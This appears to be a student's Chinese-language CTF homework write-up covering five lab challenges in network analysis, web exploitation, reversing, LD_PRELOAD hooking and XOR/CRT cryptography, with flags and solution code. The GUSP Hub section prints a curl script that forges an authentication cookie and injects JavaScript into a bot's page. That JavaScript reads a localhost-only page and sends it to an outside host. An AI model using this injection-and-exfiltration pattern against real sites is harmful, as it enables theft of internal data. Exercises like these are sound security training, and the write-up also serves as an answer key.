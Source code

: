 # HW0 Writeup

- 學號：`109550206`

## Easy C2

- Flag：`FLAG{C2_cmd_in_http_header}`

### 解題流程與思路

題目說明其程式在發送信息跟其他人互動，且直接執行可以得到錯誤訊息 `[!] failed to connect socket: Connection refused`。

![Alt text](image/image.png)

因此可以猜測其在嘗試對某個地方建立連線，但並沒有成功。

**解題過程：**
1. tcpdump 來監聽網路狀況，再執行該程式，可以發現其對 127.0.0.1:11187 嘗試進行連線。
![tcpdump](image/image-1.png)
2. 透過 nc 於該 IP:PORT 建一個可以回應 TCP 連線的 Server，再執行該程式，及可於此 Server 收到 FLAG。

**取得 flag 的畫面：**
![Alt text](image/image-2.png)

## GUSP Hub

- Flag：`FLAG{web progr4mming 101}`

### 解題流程與思路
根據題目首先需要一個可以跟 GUSP Hub 互動的網頁服務，接著將其註冊上 GUSP 可以得到一個 API ID，得到 API ID 後可以透過 /add-api 將 javascript 嵌入一個頁面中，再透過 /report 設法使 GUSP Hub 透過 bot 在本地開啟被嵌入 javascript 的頁面並執行，即可以獲得於 GUSP Hub 本地進行訪問的方法，可以到限制 127.0.0.1 的 /flag 頁面獲得 FLAG。
**解題過程：**
1. 撰寫符合 GUSP 的 HTTP Server (Flask) 並於一個有 Public IP 的地方執行 (linux1.cs.nctu.edu.tw)
![Alt text](image/image-3.png)
2. 執行 sol shell script
    - /add-api: 要加上 cookie ("authenticated=true") 才能獲取這個頁面，並填入我們撰寫的 HTTP Server IP address，及想嵌入的 JS。
    - 當 HTTP Server 完全符合 GUSP Hub 進行的測試，可以得到 api-id
    - /report: 附上 api-id，並於 alias 填入符合特定規範的字串，且該字串將會被用來戳 HTTP Server 的 api，需要回復規定內容，GUSP Hub 便會自己去戳被嵌入 JS 的頁面。
    ```sh
    #!/usr/bin/bash

    url="http://linux1.cs.nctu.edu.tw:5000/api"
    JS=$(cat sol.js)

    resp=$(curl -s -X POST \
                -H "Content-Type: application/x-www-form-urlencoded" \
                -b "authenticated=true" \
                -d "url=${url}&javascript=${JS}" \
                http://edu-ctf.zoolab.org:10010/add-api)

    api_id=$(echo $resp | awk '{print $8}')

    alias="abc123"

    resp=$(curl -s -X POST \
                -H "Content-Type: application/x-www-form-urlencoded" \
                -b "authenticated=true" \
                -d "id=${api_id}&alias=${alias}" \
                http://edu-ctf.zoolab.org:10010/report)
    ```
3. 因此該段 JS 將在 GUSP Hub 的 local 端執行，其內容如下，自己去戳 /flag 並將內容放在 headers["Flag"]，再戳一下 HTTP Server，HTTP Server 再根據自己規定的格式將 flag 撈出來，即可獲得 FLAG。
    ```javascript
    fetch("http://127.0.0.1:3000/flag", {headers: { 'give-me-the-flag': 'yes' }}).then(response => response.text()).then(text => { 
        fetch("http://linux1.cs.nctu.edu.tw:5000/flag", {headers: { 'Flag': text }}) 
    });
    ```

**取得 flag 的畫面：**
![Alt text](image/image-4.png)

## Baby Crackme

- Flag：`FLAG{r0ll1ng_4nd_3xtr4ct_t0_m3m0ry}`

### 解題流程與思路
直接丟接逆向工具，觀察其內容。
**解題過程：**
1. 丟進 IDA 直接先找到 main 可以看到程式流程，在確認完輸入內容是否符合某件事之後，會分別進到 Valid、Invalid，因此我們要設法找出須符合的條件。
![Alt text](image/image-8.png)
2. 丟進 Ghidra 可以譯出類似 Source code 的東西，找到 Valid、Invalid 可以看到條件為 `FUN_001011c9`。
![Alt text](image/image-9.png)
3. 看到 `FUN_001011c9`，可以看到其根據一些參數生出了某一個字串，且輸入與該字串相同即為 Valid。
![Alt text](image/image-10.png)
4. 撰寫 cpp 程式做一樣的事情生成該字串。
    - param_1 ~ 3 可於 main 的 Source code 看到。
    - DAT_00102020 則在 .rodata 區塊於 Ghidra 也可以看到其值
    - 至此需要的不在此 func 的值都找到了，即可透過相同流程生出字串
    ```cpp
    #include <iostream>

    int main(){
        uint DAT[] = {0x4a, 0x3c, 0x66,0xd0,0xc7,0x4b,0xc6,0xb7,0x1b,0x0d,0xc0,0x56,0xb8,0xd7,0xd3,0x47,0xb4,0xe6,0x67,0x0e,0xb6,0x50,0x92,0x8c,0x22,0x5c, 0x63, 0x8b, 0x07, 0x09, 0xf6, 0xf1, 0x64, 0x8a, 0x8b, 0xf2, 0x00, 0x00, 0x00, 0x00};
        uint param_2 = 0x24;
        uint param_3 = 0xbaceb00c;
        uint local_58 = param_3;
        char flag[1000] = {};

        for(int local_3c = 0; local_3c < param_2; local_3c = local_3c + 1){
            int bVar1 = DAT[local_3c];
            flag[local_3c] = (char) local_58 ^ bVar1;
            local_58 = ((local_58 >> 1 | (uint)((local_58 & 1) != 0) << 0x1f) ^ (uint) bVar1) + (param_2 - local_3c);
        }
        std::cout << flag << '\n';
        return 0;
    }
    ```
5. 編譯並執行後發現其為 FLAG 的形式，即找到了 FLAG。

**取得 flag 的畫面：**
![Alt text](image/image-5.png)
## Baby Hook

- Flag：`FLAG{B4by_Ld_Pr3L0aD_L1bR1rY_:)}`

### 解題流程與思路
其 main.py 明確指出其會接收一個 .so 並設置 LD_PRELOAD，再去執行 chall，因此我們就撰寫一個 .so 包含一個 chall 有的 func 來進行 hook 使其去 access flag.txt。
**解題過程：**
1. 撰寫一個 C program，含有 `__libc_start_main`，且或讀 flag.txt 並輸出。
2. 編譯成 .so
3. 送至提供的 Server 來執行 main.py，於是該 Server 執行 chall 時，`__libc_start_main` 會被 hook 並執行讀 flag.txt 並輸出，即可以獲得 FLAG。

**取得 flag 的畫面：**
![Alt text](image/image-6.png)
## Extreme Xorrrrr

- Flag：`FLAG{xor_ThEN_><OR_1qUal_ZEr0}`

### 解題流程與思路
根據提供的 python 檔設法反向解密取得 FLAG。
**解題過程：**
1. 首先觀察 xorrrrr 可以知道其會將輸入陣列變為一個特殊陣列使，陣列每個元素皆為除了該 index 的外的所有元素值 xor 在一起。
2. 此特性該好對於偶數的狀況，可以透過全部 xor 在一起得到一個所有原始元素 xor 在一起的值，再將此值 xor 所有元素即可取得所有 index 原本的值。
    ```python
    def reverse_xorrrrr(nums):
        tmp = 0
        for num in nums:
            tmp ^= num
        result = [ nums[i] ^ tmp for i in range(len(nums))]
        return result
    ```
3. 接著透過模逆元可以將其式子做轉換，形成 20 條同餘式子，再套中國餘式定理即可解出來，最後再將其值轉回字串即為 FLAG。
    ```python
    def egcd(a, b):
        if 0 == b:
            return 1, 0, a
        x, y, q = egcd(b, a % b)
        x, y = y, (x - a // b * y)
        return x, y, q

    def chinese_remainder(pairs):
        mod_list, remainder_list = [p[0] for p in pairs], [p[1] for p in pairs]
        mod_product = reduce(lambda x, y: x * y, mod_list)
        mi_list = [mod_product // x for x in mod_list]
        mi_inverse = [egcd(mi_list[i], mod_list[i])[0] for i in range(len(mi_list))]
        x = 0
        for i in range(len(remainder_list)):
            x += mi_list[i] * mi_inverse[i] * remainder_list[i]
            x %= mod_product
        return x
    ```

**取得 flag 的畫面：**
![Alt text](image/image-7.png)